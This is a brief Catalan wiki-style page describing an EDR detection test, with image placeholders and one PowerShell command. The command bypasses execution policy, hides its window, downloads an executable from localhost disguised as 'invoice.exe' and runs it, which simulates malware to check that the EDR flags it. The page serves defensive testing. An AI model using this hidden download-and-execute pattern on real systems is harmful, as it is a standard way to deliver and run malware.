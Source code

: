 ![](attachments/93356745/93356945.png)

### Proves EDR

S'ha fer servir el següent script que simula un comportament perillòs:

powershell.exe -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden $ErrorActionPreference= 'silentlycontinue';(New-Object System.Net.WebClient).DownloadFile('[http://127.0.0.1/1.exe](http://127.0.0.1/1.exe)', 'C:\\\\test-WDATP-test\\\\invoice.exe');Start-Process 'C:\\\\test-WDATP-test\\\\invoice.exe'

En Incidentes es pot veure com es detecta en el EDR:

![](attachments/93356745/93356941.png)

